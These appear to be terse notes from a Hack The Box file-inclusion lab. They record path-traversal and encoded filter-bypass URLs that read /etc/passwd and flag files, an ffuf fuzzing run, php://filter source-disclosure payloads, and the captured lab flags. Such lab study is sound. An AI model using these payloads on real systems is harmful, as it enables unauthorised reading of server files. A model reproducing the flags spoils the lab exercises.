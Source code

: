 http://94.237.49.166:56586/index.php?language=../../../../etc/passwd
barry

http://94.237.49.166:56586/index.php?language=../../../../usr/share/flags/flag.txt
HTB{n3v3r_tru$t_u$3r_!nput}

languages//....//....//....//....//....//etc/passwd
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64

languages//....//....//....//....//....//flag.txt
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%66%6c%61%67%2e%74%78%74

HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}

fuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.251:45849/FUZZ.php
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 276ms]

http://83.136.253.251:45849/index.php?language=php://filter/read=convert.base64-encode/resource=configure

echo "hash" | base64 -d #decrypt
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}

php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include